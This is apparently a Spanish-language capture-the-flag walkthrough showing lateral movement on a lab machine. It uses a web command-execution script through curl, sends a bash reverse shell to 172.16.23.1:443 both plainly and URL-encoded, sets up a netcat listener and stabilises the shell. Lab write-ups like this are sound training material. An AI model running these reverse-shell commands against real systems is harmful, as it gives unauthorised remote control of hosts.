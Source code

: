 ```
cd /opt/web
cat index.php
```
![[Pasted image 20251011195645.png]]
	Identifico un script simple para acceder a comandos de la terminal de forma remota.


### FASE 02 - Pensamiento lateral.

Con toda esta información, primero reviso el contenido de carpeta /home/ confirmando las carpetas de los usuarios de jehad, lama y losy. También encuentro el archivo "user.txt" con una flag.

![[Untitled.png]]

Luego, intento es usar el comando  ```curl "http://localhost:9999/?cmd=id"``` en el terminal de la victima. Esto me da como respuesta una ejecución de comandos como parte del usuario "losy": 
![[Pasted image 20251011181920.png]]

Esto me da a entender que puedo tener acceso al usuario losy con el comando ```bash -c "bash -i >& /dev/tcp/172.16.23.1/443 0>&1"``` por lo que proceso a ponerme en escucha desde mi terminal con ayuda de netcat y el puerto 443: 
```
nc -lvnp 443
```
![[Pasted image 20251011223003.png]]

Desde la consola de jehad, proceso a enviar el comando en formato URL encode por medio de la herramienta "curl". 
```
curl "http://localhost:9999/?cmd=bash%20-c%20'bash%20-i%20%3E%26%20/dev/tcp/172.16.23.1/443%200%3E%261'"
```
![[Pasted image 20251011223225.png]]

Esto me da acceso desde mi terminal al usuario "losy", por lo que procedo a acomodar la terminal para trabajar más cómodamente:


```
/usr/bin/script -qc /bin/bash /dev/null
```
(Luego CRTL+Z)
```
stty raw -echo; fg
```
```
export TERM=xterm
```

ya con la terminal configurada procedo a ver el historial de losy:

```
history
```
![[Pasted image 20251011230950.png]]
